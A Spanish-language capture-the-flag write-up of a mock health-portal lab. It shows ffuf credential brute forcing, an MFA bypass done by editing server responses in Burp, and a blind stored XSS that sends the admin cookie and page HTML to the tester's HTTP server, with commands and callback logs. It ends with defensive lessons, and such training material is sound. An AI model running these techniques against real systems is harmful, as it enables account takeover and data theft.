




# Writeup: Health Smarter (HackSmarter — Web Application Pentest)

Health Smarter es una máquina **Media** diseñada para simular un portal web de gestión de salud con múltiples vulnerabilidades. El recorrido comienza con un escaneo de puertos que revela un servidor web Node.js/Express, seguido de un análisis del código fuente que expone el endpoint `/api/login`. Mediante un ataque de fuerza bruta con **Cluster Bomb** se descubren credenciales válidas, pero el sistema requiere un código MFA de 6 dígitos. Al ser inviable brute forcear 1.000.000 de combinaciones, se identifica una vulnerabilidad crítica en el cliente: el frontend confía ciegamente en la respuesta del servidor, permitiendo manipular la respuesta para saltarse la verificación MFA. Una vez dentro del panel de paciente, se explota un **Blind Stored XSS** en el formulario de tickets de soporte, que al ser revisado por un administrador ejecuta un payload que exfiltra el DOM completo del panel de administración, revelando la flag final.

---

## 🎯 Objetivo / Scope

Health Smarter está lanzando un nuevo portal para que pacientes y empleados gestionen citas y datos de salud. Se ha contratado al equipo de pentesting para realizar una evaluación completa de seguridad de la aplicación web. El objetivo es identificar todas las vulnerabilidades y demostrar su impacto, obteniendo acceso al panel de administración si es posible.

**Credenciales iniciales proporcionadas:** Archivos `usernames.txt` y `passwords.txt` con posibles combinaciones de credenciales filtradas.

---

## Fase 1: Reconocimiento

Realizamos un escaneo de puertos con Nmap para descubrir los servicios expuestos:

```bash
nmap -sV -sC -p- 10.1.238.21
```

**Resultado:**

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-24 19:02 -0400
Nmap scan report for 10.1.238.21
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 56:37:5b:35:cc:0b:44:ea:3b:04:68:7c:23:1b:12:98 (ECDSA)
|_  256 c8:f6:a0:02:18:44:14:4d:8e:8b:e2:bf:a1:60:b1:7a (ED25519)
80/tcp open  http    Node.js Express framework
| http-title: Enterprise Portal Login | Health Smarter
|_Requested resource was /login.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Observaciones clave:**

- **Puerto 22 (SSH)**: Abierto, pero no es el foco inicial.
- **Puerto 80 (HTTP)**: Servidor web que ejecuta **Node.js con Express**, sirviendo un portal de login con el título "Enterprise Portal Login | Health Smarter".

La aplicación web es el punto de entrada principal.

---

## Fase 2: Enumeración Web

### 2.1 Análisis del código fuente

Accedemos a `http://10.1.238.21/login.html` y visualizamos la página:



Revisamos el código fuente (`view-source:http://10.1.238.21/login.html`) y encontramos un script JavaScript que maneja el envío del formulario:

```html
<script>
    const form = document.getElementById('loginForm');
    const errorAlert = document.getElementById('errorAlert');
    const loginBtn = document.getElementById('loginBtn');

    form.addEventListener('submit', async (e) => {
        e.preventDefault();
        errorAlert.style.display = 'none';
        loginBtn.disabled = true;
        loginBtn.textContent = 'Authenticating...';

        const username = document.getElementById('username').value;
        const password = document.getElementById('password').value;

        try {
            const response = await fetch('/api/login', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ username, password })
            });

            const data = await response.json();

            if (data.success) {
                window.location.href = data.redirect;
            } else {
                errorAlert.textContent = data.message || 'Invalid username or password. Please try again.';
                errorAlert.style.display = 'flex';
            }
        } catch (err) {
            errorAlert.textContent = 'Connection error. Please verify the server is running.';
            errorAlert.style.display = 'flex';
        } finally {
            loginBtn.disabled = false;
            loginBtn.textContent = 'Sign In';
        }
    });
</script>
```

**Observación crítica:**

El código JavaScript envía las credenciales mediante `fetch()` al endpoint `/api/login` en formato JSON, y **confía ciegamente** en la respuesta del servidor. La navegación a la siguiente página se basa únicamente en los campos `success` y `redirect` devueltos por la API. Esto es una **vulnerabilidad de confianza en el cliente** (*client-side trust*): un atacante con capacidad de interceptar y modificar respuestas (usando un proxy como Burp Suite) puede manipular la respuesta y forzar la redirección sin necesidad de credenciales válidas.

### 2.2 Prueba de credenciales

Probamos una combinación de credenciales para observar la respuesta del servidor:

```bash
curl -X POST http://10.1.238.21/api/login \
     -H "Content-Type: application/json" \
     -d '{"username": "t.ramsbey@healthsmarter.hsm", "password": "password123"}'
```

```json
{"success":false,"message":"Invalid username or password. Please try again."}
```

Calculamos el tamaño de la respuesta para usarlo como filtro en el ataque de fuerza bruta:

```bash
echo -n '{"success":false,"message":"Invalid username or password. Please try again."}' | wc -c
```

```bash
77
```

Todas las respuestas fallidas tienen el mismo tamaño (77 bytes). Este será nuestro filtro en `ffuf`.

---

## Fase 3: Ataque de fuerza bruta con FFUF

Disponemos de dos archivos: `usernames.txt` y `passwords.txt`. Usamos **ffuf** en modo **Cluster Bomb** para probar todas las combinaciones posibles de usuario y contraseña.

### ¿Qué es el modo Cluster Bomb?

Este modo prueba **todas las combinaciones posibles** entre la primera lista y la segunda lista. Es decir:

- Toma el primer usuario y lo prueba con **todas** las contraseñas.
- Luego toma el segundo usuario y lo prueba con **todas** las contraseñas.
- Y así sucesivamente.

*Ejemplo:*

- Lista 1 (Usuarios): `admin`, `t.ramsbey`
- Lista 2 (Passwords): `123456`, `password`

Ataque Cluster Bomb:

1. `admin` : `123456`
2. `admin` : `password`
3. `t.ramsbey` : `123456`
4. `t.ramsbey` : `password`

### Comando FFUF

```bash
ffuf -u http://10.1.238.21/api/login \
     -X POST \
     -H "Content-Type: application/json" \
     -d '{"username":"FUZZ1","password":"FUZZ2"}' \
     -w usernames.txt:FUZZ1 -w passwords.txt:FUZZ2 \
     -mode clusterbomb \
     -fs 77 \
     -c -v
```

**Explicación de parámetros:**

- `-u`: URL del endpoint.
- `-X POST`: Método HTTP POST.
- `-H`: Cabecera `Content-Type: application/json`.
- `-d`: Cuerpo de la petición, con `FUZZ1` y `FUZZ2` como marcadores de posición.
- `-w`: Archivos de wordlist, asignando `FUZZ1` a usuarios y `FUZZ2` a contraseñas.
- `-mode clusterbomb`: Modo de ataque que prueba todas las combinaciones.
- `-fs 77`: Filtra respuestas con tamaño 77 (las fallidas), mostrando solo las que se desvían.
- `-c`: Colorea la salida.
- `-v`: Modo verbose para más detalles.

**Resultado:**

```bash
[Status: 200, Size: 39, Words: 1, Lines: 1, Duration: 402ms]
| URL | http://10.1.238.21/api/login
    * FUZZ1: m.thompson@healthsmarter.hsm
    * FUZZ2: Care4All!
:: Progress: [90000/90000] :: Job [1/1] :: 244 req/sec :: Duration: [0:04:08] :: Errors: 0 ::
```

Encontramos las credenciales válidas:

- **Usuario:** `m.thompson@healthsmarter.hsm`
- **Contraseña:** `Care4All!`

---

## Fase 4: Autenticación y MFA

Con las credenciales obtenidas, intentamos iniciar sesión. El sistema redirige a una página de verificación de **MFA** (Autenticación Multifactor) que solicita un código de 6 dígitos.



Probamos a enviar una solicitud al endpoint `/api/mfa/verify`:

```bash
curl http://10.1.238.21/api/mfa/verify \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Cookie: connect.sid=s%3Au0PNBVtfLU4S1VVvDfkRCT79yBm31NxO.brTRGn%2BvnGSz4r5dliEnG890zTML219DpjJKHKktXX4" \
     -d '{"code":"0000"}'
```

```json
{"success":false,"message":"Verification code expired."}
```

### 4.1 Intento de fuerza bruta al MFA

Teóricamente, un código MFA de 6 dígitos tiene 1.000.000 de combinaciones posibles (`000000` a `999999`). Intentamos brute forcearlo con `ffuf`:

```bash
ffuf -u http://10.1.238.21/api/mfa/verify \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Cookie: connect.sid=s%3Au0PNBVtfLU4S1VVvDfkRCT79yBm31NxO.brTRGn%2BvnGSz4r5dliEnG890zTML219DpjJKHKktXX4" \
     -d '{"code":"FUZZ"}' \
     -w mfa_codes.txt \
     -fs 56 \
     -c -v
```

```bash
[WARN] Caught keyboard interrupt (Ctrl-C)
```

El ataque es inviable en la práctica, ya que la ventana de tiempo para un código MFA suele ser de 60 segundos o menos. Con 1.000.000 de combinaciones, incluso a alta velocidad, no es factible.

---

## Fase 5: Bypass de MFA mediante Manipulación de Respuesta

Recordando la vulnerabilidad de confianza en el cliente observada en el login, aplicamos el mismo principio al flujo de MFA.

### 5.1 Configuración de Burp Suite

Usamos **Burp Suite** con la opción **"Intercept Server Responses"** habilitada. Esto nos permite capturar y modificar las respuestas del servidor antes de que lleguen al navegador.

### 5.2 Flujo del ataque

1. Realizamos un login exitoso con las credenciales de `m.thompson`.
2. Llegamos a la página `/mfa.html` y enviamos un código MFA cualquiera (por ejemplo, `000000`).
3. Burp Suite intercepta la petición y la respuesta del servidor.

**Petición interceptada:**

```
POST /api/mfa/verify HTTP/1.1
Host: 10.1.238.21
Content-Type: application/json
Cookie: connect.sid=s%3Au0PNBVtfLU4S1VVvDfkRCT79yBm31NxO.brTRGn%2BvnGSz4r5dliEnG890zTML219DpjJKHKktXX4
Content-Length: 17

{"code":"000000"}
```

**Respuesta original del servidor:**

```
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Content-Length: 56

{"success":false,"message":"Verification code expired."}
```

### 5.3 Manipulación de la respuesta

Modificamos la respuesta en Burp Suite, cambiando el JSON para indicar éxito:

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 39

{"success":true, "redirect": "/dashboard.html"}
```

**Explicación:** La respuesta modificada indica al frontend que la verificación fue exitosa y que debe redirigir a `/dashboard.html`. El navegador, al recibir esta respuesta, confía en ella y navega directamente al panel de paciente sin que el servidor valide nuevamente la autenticación MFA.

### 5.4 Resultado

El navegador redirige a `/dashboard.html` y nos encontramos dentro del **Patient Portal Dashboard**.



Hemos eludido completamente la verificación MFA mediante la manipulación de la respuesta del servidor. Esta vulnerabilidad es un ejemplo clásico de **falta de validación del lado del servidor** (*server-side validation*) y **confianza excesiva en el cliente** (*client-side trust*).

---

## Fase 6: Identificación de Blind Stored XSS

### 6.1 Análisis del formulario de tickets

El dashboard del paciente expone un formulario de **Helpdesk Support** que permite a los pacientes enviar tickets con "Subject" y "Message", indicando que serán revisados por el personal administrativo.



Cualquier formulario de ingreso de tickets que luego es revisado por un operador con privilegios es un candidato clásico para **Blind XSS** (Cross-Site Scripting ciego). Esto ocurre cuando el contenido enviado por el usuario se almacena en el servidor y se renderiza sin sanitización en un panel interno, afectando a un usuario con mayores privilegios (en este caso, un administrador).

### 6.2 Prueba inicial de XSS

Creamos un payload de prueba que intente realizar una petición a nuestro servidor HTTP para confirmar la ejecución:

```bash
curl -X POST http://10.1.238.21/api/tickets \
     -H "Content-Type: application/json" \
     -H "Cookie: connect.sid=s%3Au0PNBVtfLU4S1VVvDfkRCT79yBm31NxO.brTRGn%2BvnGSz4r5dliEnG890zTML219DpjJKHKktXX4" \
     -d '{"subject":"Error","message":""}'
```

```json
{"success":true,"message":"Support ticket submitted successfully. A representative will review it shortly."}
```

En nuestra máquina, montamos un servidor HTTP para capturar las peticiones:

```bash
python3 -m http.server
```

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.1.238.21 - - [24/Jul/2026 20:16:54] code 404, message File not found
10.1.238.21 - - [24/Jul/2026 20:16:54] "GET /xss_prueba HTTP/1.1" 404 -
10.1.238.21 - - [24/Jul/2026 20:16:55] "GET /xss_prueba HTTP/1.1" 404 -
```

**Confirmación de XSS:** El servidor de Health Smarter realizó una petición GET a nuestro endpoint `/xss_prueba`, lo que confirma que el payload se ejecutó en el panel del administrador. Tenemos un **Blind Stored XSS** validado.

### 6.3 Intento de robo de cookies (fallido)

El siguiente paso lógico sería intentar robar la cookie de sesión del administrador. Modificamos el payload para exfiltrar `document.cookie`:

```bash
echo '{"subject":"Error","message":""}' > payload.json

curl -X POST http://10.1.238.21/api/tickets \
     -H "Content-Type: application/json" \
     -H "Cookie: connect.sid=s%3AbvX8DX0LGjV04wuzxnO-ySc6ydkH6xjz.L%2BrqbN6K8Yft5E6DRlaovGFH0L43%2FLi1O3zGT7M9Z40" \
     -d @payload.json
```

```json
{"success":true,"message":"Support ticket submitted successfully. A representative will review it shortly."}
```

**Resultado en nuestro servidor HTTP:**

```bash
10.1.238.21 - - [24/Jul/2026 20:25:59] "GET /?c= HTTP/1.1" 200 -
```

El parámetro `c=` está vacío. Esto indica que la cookie de sesión del administrador tiene el flag **`HttpOnly`**, que impide que JavaScript acceda a la cookie. Esta es una buena práctica de seguridad que bloquea el robo de sesión clásico.

---

## Fase 7: Exfiltración del DOM completo

### 7.1 Cambio de estrategia

Dado que el robo de cookies está bloqueado, cambiamos el enfoque a **exfiltrar el DOM completo** de la página que está visualizando el administrador. Esto puede revelar información sensible, incluyendo flags o credenciales que estén renderizadas en el panel.

### 7.2 Payload de exfiltración de DOM

```bash
echo '{"subject":"Error","message":""}' > payload.json
```

**Explicación del payload:**

- `document.documentElement.outerHTML`: Obtiene el HTML completo de la página, incluyendo el elemento `<html>` y todo su contenido.
- `encodeURIComponent()`: Codifica el HTML para que pueda ser transmitido como parámetro URL.
- `fetch()`: Envía el HTML codificado a nuestro servidor HTTP.

```bash
curl -X POST http://10.1.238.21/api/tickets \
     -H "Content-Type: application/json" \
     -H "Cookie: connect.sid=s%3AbvX8DX0LGjV04wuzxnO-ySc6ydkH6xjz.L%2BrqbN6K8Yft5E6DRlaovGFH0L43%2FLi1O3zGT7M9Z40" \
     -d @payload.json
```

```json
{"success":true,"message":"Support ticket submitted successfully. A representative will review it shortly."}
```

### 7.3 Captura del DOM exfiltrado

En nuestro servidor HTTP recibimos una petición masiva con el HTML codificado:

```bash
10.1.238.21 - - [25/Jul/2026 13:25:11] "GET /?html=%3Chtml%20lang%3D%22en%22%3E%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Ctitle%3EExecutive%20Staff%20Portal%20%7C%20Health%20Smarter%3C%2Ftitle%3E%0A%20%20%20%20%3Clink%20rel%3D%22preconnect%22%20href%3D%22https%3A%2F%2Ffonts.googleapis.com%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22preconnect%22%20href%3D%22https%3A%2F%2Ffonts.gstatic.com%22%20crossorigin%3D%22%22%3E%0A%20%20%20%20%3Clink%20href%3D%22https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DOutfit%3Awght%40400%3B600%3B700%26amp%3Bdisplay%3Dswap%22%20rel%3D%22stylesheet%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22%2Fcss%2Fstyle.css%22%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E...%3C%2Fbody%3E%3C%2Fhtml%3E HTTP/1.1" 200 -
```

### 7.4 Decodificación y análisis del HTML

Copiamos el contenido codificado y lo decodificamos usando **CyberChef** (URL Decode). Obtenemos el HTML completo del panel de administración:

```html
<html lang="en"><head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Executive Staff Portal | Health Smarter</title>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin="">
    <link href="https://fonts.googleapis.com/css2?family=Outfit:wght@400;600;700&amp;display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <header>
        <div class="logo-container">
            <div class="logo-icon">+</div>
            <div class="logo-text">Health<span>Smarter</span></div>
        </div>
        <div style="display: flex; align-items: center; gap: 1rem;">
            <span id="userBadge" style="font-weight: 600; color: var(--text-muted);">Dr. Elizabeth Kennedy (Admin)</span>
            <button id="logoutBtn" class="btn btn-secondary" style="padding: 0.4rem 0.8rem; font-size: 0.85rem;">Sign Out</button>
        </div>
    </header>

    <main>
        <div class="dashboard-container" style="grid-template-columns: 1fr;">
            <!-- Welcome Header -->
            <div class="dashboard-header">
                <div>
                    <h1 style="font-size: 1.5rem; margin-bottom: 0.25rem;">Executive Staff Dashboard</h1>
                    <p style="color: var(--text-muted); font-size: 0.9rem;">Internal clinical administrative workflow, support review, and audit controls.</p>
                </div>
            </div>

            <!-- Flag 2 Area (Requirement 5) -->
            <div class="dashboard-card" style="border-color: #fca5a5; background: #fffdfd;">
                <h2 style="font-size: 1.25rem; border-bottom: 2px solid #fee2e2; padding-bottom: 0.5rem; color: #b91c1c;">
                    Administrative Flag
                </h2>
                
                <div class="badge-flag" style="background: #fee2e2; color: #b91c1c; border-color: rgba(185, 28, 28, 0.2);">
                    <span>FLAG 2 (XSS &amp; Admin Exfiltration):</span>
                    HSM{35dca15a0eb94bd781f82ff45f070bff}
                </div>
            </div>

            <!-- Support Ticket Feed -->
            <div class="dashboard-card">
                <h2 style="font-size: 1.25rem; border-bottom: 2px solid var(--primary-light); padding-bottom: 0.5rem; color: var(--primary-hover);">
                    Incoming Helpdesk Requests
                </h2>

                <div id="ticketsFeed" class="ticket-list">
                    <div class="ticket-card">
                        <div class="ticket-meta">
                            <span>From: <strong>Marcus Thompson</strong> (m.thompson@healthsmarter.hsm)</span>
                            <span>7/25/2026, 5:25:07 PM</span>
                        </div>
                        <div class="ticket-subject">Subject: Error</div>
                        <div class="ticket-message"></div>
                    </div>
                </div>
            </div>
        </div>
    </main>

    <footer>
        © 2026 Health Smarter Inc.
    </footer>

    <script>
        // Check session and display user name (must be Admin)
        async function loadSession() {
            try {
                const res = await fetch('/api/session-info');
                if (!res.ok) {
                    window.location.href = '/login.html';
                    return;
                }
                const data = await res.json();
                if (data.role !== 'Admin') {
                    document.body.innerHTML = '<main><div class="auth-wrapper"><div class="auth-header"><h1 style="color:red">Access Denied</h1><p>You do not have administrative privileges to access this area.</p><br><a href="/dashboard.html" class="btn">Back to Dashboard</a></div></div></main>';
                    return;
                }
                document.getElementById('userBadge').textContent = `${data.name} (${data.role})`;
                loadTickets();
            } catch (err) {
                window.location.href = '/login.html';
            }
        }

        // Fetch support tickets
        async function loadTickets() {
            try {
                const res = await fetch('/api/admin/tickets');
                if (!res.ok) return;
                const tickets = await res.json();
                
                const feed = document.getElementById('ticketsFeed');
                if (tickets.length === 0) {
                    feed.innerHTML = '<p style="color: var(--text-muted); font-style: italic;">No pending support requests.</p>';
                    return;
                }

                feed.innerHTML = '';
                tickets.forEach(ticket => {
                    const card = document.createElement('div');
                    card.className = 'ticket-card';
                    card.innerHTML = `
                        <div class="ticket-meta">
                            <span>From: <strong>${escapeHtml(ticket.name)}</strong> (${escapeHtml(ticket.username)})</span>
                            <span>${escapeHtml(ticket.createdAt)}</span>
                        </div>
                        <div class="ticket-subject">Subject: ${escapeHtml(ticket.subject)}</div>
                        <div class="ticket-message">${ticket.message}</div>
                    `;
                    feed.appendChild(card);

                    // Re-evaluate scripts inside the ticket message (intentional for admin functionality)
                    const scripts = card.querySelectorAll('script');
                    scripts.forEach(oldScript => {
                        const newScript = document.createElement('script');
                        Array.from(oldScript.attributes).forEach(attr => newScript.setAttribute(attr.name, attr.value));
                        newScript.appendChild(document.createTextNode(oldScript.innerHTML));
                        oldScript.parentNode.replaceChild(newScript, oldScript);
                    });
                });
            } catch (err) {
                console.error('Error loading tickets:', err);
            }
        }

        function escapeHtml(text) {
            if (!text) return '';
            return text.toString()
                .replace(/&/g, "&amp;")
                .replace(/</g, "&lt;")
                .replace(/>/g, "&gt;")
                .replace(/"/g, "&quot;")
                .replace(/'/g, "&#039;");
        }

        // Sign Out Button
        document.getElementById('logoutBtn').addEventListener('click', async () => {
            await fetch('/api/logout', { method: 'POST' });
            window.location.href = '/login.html';
        });

        loadSession();
    </script>
</body></html>
```


Hemos completado el objetivo del pentest: obtener acceso al panel de administración y recuperar las flags.

---

## 📌 Conclusión

Health Smarter es una máquina **Media** que combina múltiples vulnerabilidades en una aplicación web:

1. **Fuerza bruta de credenciales** mediante FFUF en modo Cluster Bomb, explotando la falta de rate limiting.
2. **Bypass de MFA** mediante manipulación de respuesta del servidor (client-side trust), eludiendo la verificación de 6 dígitos.
3. **Blind Stored XSS** en el formulario de tickets de soporte, permitiendo la ejecución de código arbitrario en el panel del administrador.
4. **Exfiltración del DOM** completo de la página del administrador, revelando la flag final.

---

## 📚 Lecciones aprendidas

1. **La confianza en el cliente es una vulnerabilidad crítica**  
   El frontend no debe confiar ciegamente en las respuestas del servidor para decisiones de seguridad. Aunque el servidor sea seguro, la manipulación de respuestas en el cliente puede eludir controles como MFA. Las decisiones de autenticación y autorización deben validarse siempre en el servidor.

2. **Los formularios de tickets de soporte son vectores de Blind XSS**  
   Cualquier entrada de usuario que sea renderizada en un panel interno debe ser sanitizada rigurosamente. El uso de `innerHTML` sin sanitización o la reevaluación de scripts son prácticas extremadamente peligrosas.

3. **La exfiltración de DOM puede revelar información sensible**  
   Aunque las cookies estén protegidas con `HttpOnly`, el contenido de la página puede contener flags, credenciales o información de configuración que un atacante puede exfiltrar mediante XSS.

4. **Rate limiting es esencial para prevenir fuerza bruta**  
   La ausencia de limitación de intentos permitió probar 90.000 combinaciones de credenciales en minutos. Implementar CAPTCHA, bloqueo de IP o retardos exponenciales es fundamental.
